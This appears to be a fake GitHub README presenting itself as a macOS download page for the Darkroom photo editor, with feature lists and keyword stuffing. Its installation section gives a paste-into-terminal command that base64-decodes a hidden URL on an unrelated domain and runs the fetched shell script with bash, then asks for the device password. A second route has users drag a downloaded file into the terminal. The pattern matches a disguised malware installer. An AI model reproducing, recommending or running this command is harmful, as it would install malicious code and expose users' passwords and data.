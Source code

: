 # Darkroom Mac Download
![Darkroom Screenshot 1](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTrHpp_Dl6hcpOtJKhRpLVMcvwWEw7eiBY0y9PNR1PI5nG2xXqKQcjVG2090yMleV9lSdo&usqp=CAU)

---

[![Download Now](https://img.shields.io/badge/Download--Now-Darkroom%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/darkroom)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Darkroom?

Darkroom for Mac is a premium photo and video editing application built with creative professionals in mind. It delivers powerful editing tools in a beautifully minimal interface optimized for macOS. Whether you're a photographer refining RAW images or a content creator tweaking video color profiles, Darkroom provides a fast, real-time workflow that doesn't compromise on quality.

Unlike traditional editors that require importing/exporting workflows, Darkroom integrates deeply with your Mac photo library, letting you edit images and videos instantly. The app offers non-destructive editing, curve adjustments, selective color, watermarking, and batch processing—all while maintaining lightning-fast performance. 

Darkroom is also optimized for Apple Silicon chips, ensuring smooth performance even on high-resolution RAW files and 4K videos. With support for keyboard shortcuts, LUTs, and cloud sync, it fits naturally into professional workflows and scales with your creative needs.

![Darkroom UI](https://darkroom.co/_next/image?url=%2Fassets%2Fimages%2Fposts%2F1____rswTtN2E7QpIqdJ8eTN__g.png&w=3840&q=90)

---

## 🌟 Key Features & Benefits

- 🖼️ Real-Time Editing — No import/export delays; edit directly from your media library  
- 🎨 RAW & ProRAW Support — Professional-grade tools for serious photographers  
- 🎞️ Video Color Grading — Adjust color profiles on 4K video with LUTs  
- 🔄 Non-Destructive Workflow — All edits are reversible at any time  
- 💡 Batch Editing — Apply consistent edits across multiple files  
- 🌈 Curve & Color Controls — Fine-tune tone, saturation, highlights, and shadows  
- 🖥️ macOS Optimized — Fast and smooth on both Intel and Apple Silicon Macs  
- ☁️ Cloud Sync — Sync presets and edits across iOS and macOS devices  

---

## 🖥️ System Requirements

- macOS 11.0 Big Sur or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 4 GB RAM or higher  
- ~100 MB free disk space  

---

## 🏷️ Keywords

darkroom mac, mac darkroom, darkroom macos, darkroom software for mac
